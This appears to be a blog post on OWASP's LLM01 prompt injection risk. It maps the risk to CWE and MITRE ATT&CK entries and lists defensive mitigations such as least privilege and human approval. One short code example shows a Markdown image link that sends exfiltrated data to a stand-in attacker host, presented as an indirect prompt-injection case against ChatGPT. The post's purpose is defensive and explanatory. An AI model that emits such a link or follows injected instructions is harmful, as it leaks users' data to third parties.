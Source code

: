 ```yaml
--- 
title: OWASP LLM Top 10 for LLM, LLM01 - Prompt Injection Part 2 - Deeper Dive and Mitigations
date: 2023/10/28
description: Prompt Injection Deeper Dive
tag: developers, cybersecurity, OWASP Top 10, prompt injection, LLM01, aiml, machine learning, threats, red, chatgpt, mitre, atlas
author: Dr. Jones
--- 
```


# Prompt Injection: A Deeper Dive and Mitigation- Part 2

<Image 
  src="/images/mon/llmonster1.png" 
  alt="LLM Monster 01" 
  width={727} 
  height={408} 
  priority 
  className="next-image" 
/> 

Before we launch into mitigations, I have found an additional resource we can use in our analysis, [Bob Simonoff's LLM Commentary](https://github.com/Bobsimonoff/LLM-4-Applications-Commentary/tree/main). Bob is a Senior Prinicpal Software Engineer and Fellow in his current position. Additionally, he is a core team member and founder of the OWASP Top 10 for LLMs. Bob provides content and commentary on the Top 10 for LLMs. 

## Additional Mapping - Common Weakness Enumeration ([CWE](https://cwe.mitre.org/)) and [MITRE ATT&CK®](https://attack.mitre.org/).

Bob does an impressive job of mapping these vulnerabilities to CWE, ATT&CK, and ATLAS! We wont go over every single additional mapping with as much detail as previously. You can get additional details off his GitHub Repository linked above.

<Image 
  src="/images/mon/llmonster5.jpeg" 
  alt="LLM Monster 05" 
  width={512} 
  height={512} 
  priority 
  className="next-image" 
/> 

### [CWE](https://github.com/Bobsimonoff/LLM-4-Applications-Commentary/blob/main/docs/LLM-Top-10-Framework-Mappings/OWASP-Mappings-to-other-frameworks-LLM01-PromptInj.md#common-weakness-enumeration-cwe)

1. [CWE-20: Improper Input Validation](https://cwe.mitre.org/data/definitions/20.html)
2. [CWE-77: Improper Neutralization of Special Elements Used in a Command ('Command Injection')](https://cwe.mitre.org/data/definitions/77.html)
3. [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
4. [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)
5. [CWE-114: Process Control](https://cwe.mitre.org/data/definitions/114.html)
6. [CWE-285: Improper Authorization](https://cwe.mitre.org/data/definitions/285.html)
7. [CWE-287: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)
8. [CWE-346: Origin Validation Error](https://cwe.mitre.org/data/definitions/346.html)

If we remember in the previous discussion, prompt injection occurs when we are able to directly convince the model to go against its set of rules or indirectly by a plugin, that is going to do something run a command, complete a task, which might not be in the user or model owners best interest. One example we discussed last time was how ChatGPT renders markdown:

``` 
![data exfiltration in progress](https://attacker/q=*exfil_data*) 
``` 

If you remember this example, the blank image would be rendered, and the attacker now has control of the LLM, this is due to improper handling / sanitization of the data.

#### MITRE ATT&CK®

1. [T1059: Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)
2. [T1078: Valid Accounts](https://attack.mitre.org/techniques/T1078/)
3. [T1090: Proxy](https://attack.mitre.org/techniques/T1090/)
4. [T1190: Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
5. [T1548: Abuse Elevation Control Mechanism](https://attack.mitre.org/techniques/T1548/)
6. [T1550: Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550/)
7. [T1566: Phishing](https://attack.mitre.org/techniques/T1566/)

An attacker is going to use many different mechanisms to gain access to the system and LLM. We discussed many asspects of these in the last post, in relation to [ML Model Access](https://atlas.mitre.org/tactics/AML.TA0000), as well as [Command and Scripting Interpreter](https://atlas.mitre.org/techniques/AML.T0050/). An attacker is going to attempt to gain access to the LLM by any means possible, be it via prompt injection or by traditional means, such as stealing valid accounts via phishing campaigns, account enumeration, or account escalation. Also data scientists in the space usually have more access than they should. These are just a few things to be mindful of.

These vulnerabilities are possible due to the fact that LLMs use natural language. LLMs view both direct and indirect instructions as user-provided input. As per the norm in security, there is no fool-proof mechanism to prevent this. Therefore, it is important to implement mitigations to minimize the impact when a prompt injection is carried out, in addition to any remediations you might take to prevent particular or "known" exploitations.

<Image 
  src="/images/mon/llmonster6.jpeg" 
  alt="LLM Monster 02" 
  width={512} 
  height={512} 
  priority 
  className="next-image" 
/> 

## Prevention

So as we mentioned, LLMs are naturally vulnerable to these forms of attacks due to their nature. So, it is important to prevent prompt injections, as well as add additional mitigations to limit the impact prompt injection exploits could carry out.

1. Separate external content (plug-ins) from user input. 
- As we mentioned above, due to the nature of LLMs, it is important that the LLM is aware of the origin of the content, as to limit its imfluence on the users prompt or the LLM.
2. Establish trust boudaries between the LLM, external sources, and downstream functionality. Or implement application isolation/sandboxing.
- This is a logical step in additional to seperating external content from the users input, we shouls also treat the LLM as an untrusted user.
3. Enforce privilege control, following the principle of least privilege.
- As we mentioned earlier, treat the LLM as an untrusted user. The LLM should only have the minimum level of access to complete its task. We should also limit external sources / contents impact on the LLM, so it should be limited seperately, with additional parameters, possibly even more so than the user.
4. Extensible functionality should always implement human in the loop.
- We should never allow the LLM to blindly complete privileged operations or tasks, be it sending or deleting messages, making changes to your calendar, copying chat or uploading chat logs, etc. The application should verify with the user before performing some actions.
5. Advesarial Input Detection / Query Auditing
- Prompt Injection can be explained as a form of anomaly. Thus, we should implement a mechnism to detect, log, and block atypical queries. 
6. Restrict Library Loading
- Compromised or vulnerable libraries might be loaded as part of the pickle file, or via a user prompt, thus it is important that we restrict library loading to approved mechanisms. 

<Image 
  src="/images/mon/llmonster2.jpeg" 
  alt="LLM Monster 02" 
  width={512} 
  height={512} 
  priority 
  className="next-image" 
/> 

## Closing Thoughts

Current approaches to reduce direct prompt injection seems to follow a more "Whack-a-mole" style approach, thus it is important to invest more energy into exploring prevention and mitigation of this vulnerability. Many of the remaining OWASP Top 10 for LLM are possible in part by prompt injection.

Also, all images in this post, unless otherwise noted, were created with Stable Diffusion with the prompt "AI Hacker Prompt Injection" by use here at Outlaw Research Labs!
